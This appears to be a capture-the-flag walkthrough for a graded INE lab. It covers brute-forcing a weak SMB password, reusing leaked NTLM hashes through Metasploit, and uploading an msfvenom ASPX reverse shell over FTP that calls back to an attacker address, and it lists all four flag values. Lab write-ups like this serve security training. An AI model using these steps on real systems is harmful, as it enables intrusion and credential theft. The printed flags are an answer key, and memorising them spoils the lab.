### Completing Skill Check Labs

Skill Check Labs are interactive, hands-on exercises designed to validate the knowledge and skills you’ve gained in this course through real-world scenarios. Each lab presents practical tasks that require you to apply what you’ve learned. Unlike other INE labs, solutions are not provided, challenging you to demonstrate your understanding and problem-solving abilities. Your performance is graded, allowing you to track progress and measure skill growth over time.

# Lab Environment

A target machine is accessible at **target.ine.local**. Identify the services and capture the flags.

- **Flag 1: Looks like smb user tom has not changed his password from a very long time.**
- **Flag 2: Using the NTLM hash list discovered in the previous challenge, can you compromise the smb user nancy?**
- **Flag 3: I wonder what the hint found in the previous challenge be useful for!**
- **Flag 4: Can you compromise the target machine and retrieve the C://flag4.txt file?**

The following wordlist will be useful:

- /usr/share/wordlists/metasploit/unix_passwords.txt

# Tools

- Metasploit
- Nmap
- smbmap
- Firefox

Let’s get started!

**Flag 1: Looks like smb user tom has not changed his password from a very long time.**



As usual, we begin with **Nmap** to scan for open ports and services using the following command

nmap -sC -sV -p- target.ine.local



So, the **SMB service** is running on **port 445**, and as the question suggests, user **Tom** has a weak password. Let’s attempt to brute-force the password using **CrackMapExec**.

We can use tools like **Hydra, CrackMapExec, or a Metasploit module** for brute-forcing, but in this case, we’ll use **CrackMapExec**.

**Command:**

crackmapexec smb target.ine.local -u tom -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt





And here we have successfully obtained the password: **felipe**.

Now, we can enumerate the shares accessible to **Tom** and analyze his permissions using **SMBMap**. This will help us understand what operations he can perform on the system.

**Command:**

smbmap -H target.ine.local -u tom -p felipe



Now that we know there are only three shares with **read-only** access, let’s connect to the **HRDocuments** share using the following command:

**Command:**

smbclient [//target.ine.local/HRDocuments](//target.ine.local/HRDocuments) -U tom



After connecting to the **HRDocuments** share, type the `ls` command to list the available files. Here, we find **flag1.txt** and **leaked-hashes.txt**.

To download these files, use the `get` command as follows:



Now, use the `cat` command to read the contents of **flag1.txt**. Here, we obtain our first flag:

78bdadd71c4d42988dfe0603023e0744

download leaked-hashes.txt file --> get leaked-hashes.txt



**Flag 2: Using the NTLM hash list discovered in the previous challenge, can you compromise the smb user nancy?**

In the previous step, we discovered **leaked-hashes.txt**, which contains NTLM hashes. Since the question asks us to compromise the **Nancy** user, we can use the **Metasploit** module `scanner/smb/smb_login` to attempt authentication using the leaked NTLM hash.

First, type `options` to list the required options for the module.



Now, set the following options for the **Metasploit** module `scanner/smb/smb_login`:

**RHOSTS**: Set the target IP address or hostname which is `target.ine.local`  -->

set RHOSTS target.ine.local

**PASS_FILE**: Set the path to the file containing the NTLM hashes which is `lekaded-hashes.txt`. -->

set PASS_FILE leaked-hashes.txt

**SMBUser**: Set the SMB username, which is `nancy`. -->

set SMBuser nancy



To create a session upon successful authentication, we need to set **CreateSession** to **true**. Once this is done, we can run the module to attempt compromising the SMB user **Nancy**.



We have successfully compromised the ‘nancy’ user. To view the active sessions, type the command `sessions`. To interact with the session, use the following command: `sessions 1`.



sessions 1



To list the shares available for the ‘nancy’ user, use the command: `shares`.



We don’t have access to the `HRDocuments` share. Let's connect to the `ITResources` share by using the command

shares -i ITResources

Then, use the `ls` command to list the contents of the directory.



To retrieve this flag, use the

download flag2.txt

command. And also download the **hint.txt** file.



Use the `cat` command to read its contents. This is where we find our second flag, which is:



e4425371607c4bd7b949badf81e883a6

**Flag.3 I wonder what the hint found in the previous challenge will be useful for!**

In the beginning, we enumerated the services running on the domain. Now, let’s try connecting to the FTP service using the credentials found in `hint.txt`. To connect to FTP, type the command: `ftp target.ine.local`, and enter the credentials when prompted.





We have successfully connected to the FTP server. To view the contents, type the `dir` or ls command.



Here, we find our third flag, which is:





7f4d86e443f04d4fabde5caf6d7a3074

**Flag4: Can you compromise the target machine and retrieve the C://flag4.txt file?**

After further analysis, we see that port 80 is open and we have FTP access. Enumeration shows that FTP is linked to this port, meaning any files uploaded will be reflected on the website. Since the server is running IIS, we can upload an ASPX shell.

**Note**: Use your IP address for LHOST.



msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.40.5 LPORT=1234 -f aspx > shell.aspx



Upload the shell to FTP using the `put` command.



Then, use the `msfconsole` module `/multi/handler` to handle the incoming connection.

search multi/handler



Set these three parameters: `PAYLOAD`, `LHOST`, and `LPORT`, which were configured in the `msfvenom` payload.

set PAYLOAD windows/x64/meterpreter/reverse_tcp  
set LHOST 10.10.40.6  
set LPORT 1234  
run



Navigate to http://target.ine.local/shell.aspx in the browser. You should observe that we have successfully obtained the shell.







To retrieve the last flag, type

cat C://flag4.txt



or create a shell and go to C driver type flag4.txt



779b1c79bec9462a8a830be9cc1a05fa


